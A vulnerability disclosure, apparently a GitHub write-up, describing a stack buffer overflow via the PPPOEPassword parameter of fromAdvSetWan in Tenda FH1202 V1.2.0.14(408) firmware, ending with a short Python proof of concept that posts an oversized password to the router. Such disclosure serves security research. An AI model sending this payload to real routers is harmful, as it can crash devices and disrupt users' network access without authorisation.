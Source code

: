 # Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

